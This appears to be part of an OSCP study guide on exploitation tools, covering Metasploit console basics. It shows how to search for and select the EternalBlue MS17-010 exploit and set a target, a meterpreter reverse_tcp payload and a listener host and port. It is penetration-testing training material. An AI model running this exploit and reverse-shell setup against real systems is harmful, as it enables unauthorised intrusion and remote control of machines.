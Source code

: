 # Exploitation Tools and Techniques

This guide covers essential exploitation tools and techniques relevant to OSCP. Understanding how to effectively use these tools is crucial for successful penetration testing.

## Metasploit Framework

The Metasploit Framework is a powerful penetration testing platform that provides a comprehensive environment for developing, testing, and executing exploits.

### Basic Usage

#### Starting Metasploit
```bash
# Start Metasploit console
msfconsole

# Start without the banner
msfconsole -q
```

#### Finding Exploits
```bash
# Search for exploits
search type:exploit platform:windows ms17-010

# Show exploit details
info exploit/windows/smb/ms17_010_eternalblue

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue
```

#### Setting Options
```bash
# Show required options
show options

# Set target
set RHOSTS 192.168.1.10

# Set payload
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Set local host (your machine)
set LHOST 192.168.1.5

# Set local port
set LPORT 4444
```
